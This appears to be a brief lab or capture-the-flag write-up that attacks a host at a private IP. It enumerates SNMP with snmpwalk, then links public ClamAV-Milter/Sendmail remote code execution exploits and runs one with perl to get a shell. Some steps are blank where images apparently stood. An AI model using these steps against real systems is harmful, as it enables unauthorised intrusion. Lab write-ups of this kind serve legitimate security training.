




# 80 

Found a website with binary code:


Challenge accepted
\
# UDP 161

Checking snmp we can find running  processes:
```bash 
snmpwalk -c public -v1 -t 10 192.168.180.42 1.3.6.1.2.1.25.4.2.1.2
```



Now using this exploit for sendtmail and clamdv:
https://github.com/0x1sac/ClamAV-Milter-Sendmail-0.91.2-Remote-Code-Execution/blob/main/exploit.c

Testing with ping we get receive packets: 


Now we can use a different exploit to get a shell 
https://www.exploit-db.com/exploits/4761

```
perl 4761.pl 192.168.180.42
```
Then connect to it:


